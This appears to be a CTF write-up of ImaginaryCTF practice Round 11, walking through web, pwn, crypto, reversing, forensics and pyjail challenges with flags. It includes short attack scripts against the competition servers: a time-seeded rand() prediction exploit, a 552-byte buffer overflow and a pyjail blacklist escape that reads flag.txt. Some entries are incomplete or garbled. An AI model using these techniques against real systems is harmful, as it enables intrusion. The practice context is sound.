








ICTF is a practice competition that does not equate to much except for practice. However, this does not mean they are all easy. These challenges are meant to simulate real ones, usage of websites, terminal, pwning, and so much more. All just for practice with the work and dedication of the board team. They generally release challenges once on the daily and reset the round every month. If you would like to join, click on the link below.

> <https://discord.gg/Z4Vn9bw2uX>

**AFTERNOTE:** I've been inactive in terms of making challenges february onwards but continue to participate in the backend work. Been caught up with mainly life. Also get ready for ImaginaryCTF, getting prepared for July.

# Sanity Check Round 11

[Misc]

> Welcome to Round 11! DM flags to me to get points, and rise up on the leaderboard! Have fun and enjoy Round 11!
>
> aaaabaaacaaadaaaeaaafaaagaaaha`ictf{Round_11_Sanity_Check}`aaiaaajaaakaaalaaamaaanaaaoaaa

This is just a starting challenge for those new to understand how the round starts and how to submit flags. You may join in at anytime but for those waiting for the new round is perfect for them. 

This is the flag.

> ictf{Round_11_Sanity_Check}

# Spider

[Web]

> Got some glue?
>
> *Note:* There's a rate limiter of 3 requests/second
>
> https://spider.031337.xyz/
>
>
>
>
>
>
>
>
>
>
>
>
>

It seems really odd that we started out with this challenge. I have been taking into account that for the past couple of months that the challenges are becoming more and more difficult, but this is another level. It is only the second challenge and I was almost lost. I took note of how the website changes according to the path of the website.



However, this was useless, which I realized once I looked at the network tab. If taken note of the `x-flag`, it becomes clear that the flag is here and repeats.



This is the flag.

> ictf{f0ll0w_th3_numb3rs}

# Find me

[Misc]

> Oh no, the flag is hiding. Don't think or it'll get away...
>
> [https://imaginary.ml/r/5D9B-find_me.txt](./find_me.txt)
>
> 
>
>
>
>
>
>
>
>
>
>
>
>
>

Don't think, just search for flag format.

This is the flag.

> ictf{gr3p_0r_4ny_t3xt_3d1t0r...Fl4g_f0rm4t_m4tt3rs}

# filling-blanks

[Reversing]

> Who doesn't like filling blanks? Fix the code and get the flag.
>
> [https://imaginary.ml/r/9178-predict](./predict)
>
> [https://imaginary.ml/r/6D64-solve.py](./predict.py)
>
> `nc 20.94.210.205 1337`
>
>
>
>
>
>
>
>
>
>
>

I was a little confused on what I had to do here, but I assume I just have to fix the script they provided to exploit `predict`. They have these underscores, which means it is probably fill in the blank.

```python
from pwn import *
from ctypes import CDLL, c_int

exe = ELF('./predict', checksec=False)
libc = CDLL('libc.so.6')

#p = process(exe.path)
p = remote('20.94.210.205', 1337)

constants = [libc.rand() for i in range(4)]

p.recvuntil('flag: \n')

seed = libc.time(0) // 10
libc.srand(seed)

for i in range(4):
	random = libc.rand()
	constants[i] = c_int(constants[i] * (random % 1000))

constants = [i.value for i in constants]

guess = c_int(sum(constants)).value

p.sendline(str(guess))
print(p.recv())
```

This is the flag.

> `ictf{exp3r1menting_w1th_ch@lleng3_f0rmat$_f0r_$c1ence}`

# Uncrashable

[Pwn]

> My friend is hosting a server he claims is completely untouchable! Can you crash it to prove him wrong?
>
> [https://imaginary.ml/r/FCD8-babypwn2.c](./babypwn2.c)
>
> [https://imaginary.ml/r/05A5-babypwn2](./babypwn2)
>
> `nc oreos.imaginaryctf.org 30000`
>
>
>
>
>
>
>
>
>
>
>

Buffer Overflow by overwriting with bytes.

```python
from pwn import *
p = remote("oreos.imaginaryctf.org", 30000)
print(p.recvline())
print(p.recvline())
print(p.recvline())

p.sendline(b'a' * 552)
print(p.recvall())
```

This is the flag.

> ictf{b0f?ju5+_@dd_m0r3_buff3r}

# Add and Add

[Crypto]

> It just keeps on adding?
>
> [https://imaginary.ml/r/CB05-add_and_add.py](./add_and_add.py)
>
> [https://imaginary.ml/r/032C-output.txt](./add.txt)
>
> 
>
>
>
>
>
>
>
>
>
>
>

I see this more of a reversing challenge than I see crypto, but I think we are going to have to bruteforce the flag with z3. Which extremely sucks for me, as I dont know z3 as well.

[rise4fun](https://rise4fun.com/z3/tutorial)

[ericpony](https://ericpony.github.io/z3py-tutorial/guide-examples.htm)

[stanford](https://theory.stanford.edu/~nikolaj/programmingz3.html)

These are some tutorials I provided that I have read through, and they help out.


This is the flag.

> ictf{4ut0mat10n_1zz_da_wa3}

# Word

[Forensics]

> Word documents. We use them everywhere and they can be just as sneaky as PDF.
>
> [https://imaginary.ml/r/D55F-Word.docx](./Word.docx)
>
>
>
>
>
>
>
>
>
>
>
>
>
>
>

All Microsoft Office documents are archives. So after checking for hidden text within the file, I renamed the extention to a `.zip` and then looked inside to see flag.txt.

This is the flag.

> ictf{4ll_0ff1c3_F1l3s_4r3_Z1p5}

# Mission Impossible

[Reversing]

> Your mission, should you choose to accept it, is to discover the flag hidden in this binary.
>
> As always, should you or any of your teammates be caught or killed, the ictf Board will disavow any knowledge of your actions. Good luck.
>
> [https://imaginaryctf.org/r/9062-mission](./mission)
>
>
>
>
>
>
>
>
>
>
>
>
>

Opening the file in ghidra will show us the function `zzzAVerySecretMessage`.



Putting these into a hex to ascii, we get the flag.  

This is the flag.

> ictf{n3v3r_run_@_bin@ry_y0u_d0nt_+ru5t!}

# A really cool button

[Web]

> That button looks VERY tempting. to press.. will you press it?
>
> <https://button.max49.repl.co/>
>
>
>
>
>
>
>
>
>
>
>
>
>
>
>

First thing I did was to explore the website, navigating my way around it, see anything conspicious. First noticible thing I noticed was after the redirect the button produced text with Zero-Width space text. I thought this had to be my way to get the flag, but after try to play around with all zwsp types, it produced gibberish, meaning it was not correct.

After checking the network tab, there was a redirect, one with an htm file tag, and the other was where we ended at with html. This seems odd...



This is the flag.

> ictf{f1ag_1n_th3_c0mm3nts!}

# small enough

[Crypto]

> Hmm, there's definitely something to be factored here, but is it enough?
>
> [https://imaginary.ml/r/290A-small_enough.py](./small_enough.py)
>
> [https://imaginary.ml/r/E212-output.txt](./small.txt)
>
>
>
>
>
>
>
>
>
>
>
>
>
>
>


> Revascualrisationsurgeon

# Winnie

[Reversing]

> You had guided dynamic reverse engineering, let's try some less guided static reverse engineering.
>
> There's a lot of stuff, not everything is very relevant.
>
> [https://imaginary.ml/r/D14D-winnie.exe](./winnie.exe)
>
>
>
>
>
>
>
>

As it was an exe, we had to first check if it was a .net application with dnspy. After figuring out it was not, we popped it into x64dbg and checked the .text of the file. 



Lo and behold, it pops up with the flag.



> ictf{s1lly_0ld_bear}

# Tax Evasion

[Misc/pyjail]

> They caught you for tax evasion and hauled you off to jail. Can you escape the audit? Flag is in flag.txt.
> 
> <https://www.python.org/dev/peps/pep-0578/>
> 
> [https://imaginary.ml/r/BC94-jail.py](./jail.py)
> 
> `nc stephencurry.imaginaryctf.org 5000`

You could redefine functions by setting them equal to a lambda. 



Therefore in this case, the first parameter of the exit function will return a print statement of `0`. 

> ictf{i11_t@x_th3_stre3t_t@x_y0ur_s3@t_t@x_th3_he@t_+ax_y0ur_f33t}

# kevin

[Pwn]

> Recover the secret from shares using Shamir's Secret Sharing Scheme
>
> Shares are hidden in the image in the format ictf{share}
>
> And don't forget to wrap the secret within ictf{} before submitting it as flag.
>
> Fun fact: The heads of King Ghidorah are named Ni(2), Ichi(1) and San(3) from left to right in this image.
>
> [https://imaginary.ml/r/CFB8-kevin5.png](./kevin.png)

First thing that was obvious to do was to resize the image using the IHDR conditions, setting Int16 to 1000x1000 instead of 1000x700. 



Which we get access to a link <chl.li/kevin5>. But when I thought the challenge was over, I realized that the [pastebin](https://pastebin.com/sP1Pasbm) link I got was not the flag.

When I was looking through the png file, I saw numerous references to ictf, but I put these aside as fake flags. Looking back at the description, it's starting to make more sense. These are all pieces of the flag.

This is from the extra data as shown in the pngcheck. 

> ictf{29106484185261585}

Shamir's Secret Sharing, upon a google search, is a type of encrypted keys crypting. After trying file embeds and others, I singled out LSB to be our secret.

# Windows

[Miscellaneous]

> Ishida gave me this puzzle, reminded me of sudoku, but at the same time different. Said something about windows?
>
> <https://fdownl.ga/B664193799>

<http://a.teall.info/nonogram/>

> ICTF{NONOSQUAREFUNS}

# pyjail0

[Misc(jail-escape)]

> Your mission, should you choose to accept it, is to escape the pyjail and read the contents of flag. For your convenience, the flag is located in flag.txt in ctf directory.
>
> `nc pyjail0.westus.azurecontainer.io 1337`

If we print Blacklist, we see a lot of things in the blacklist filter. However, we should take note that it is an array, meaning we can pop an index out of the array and then use the commands.

```python
Blacklist.pop()
os.open("flag.txt").read()
```
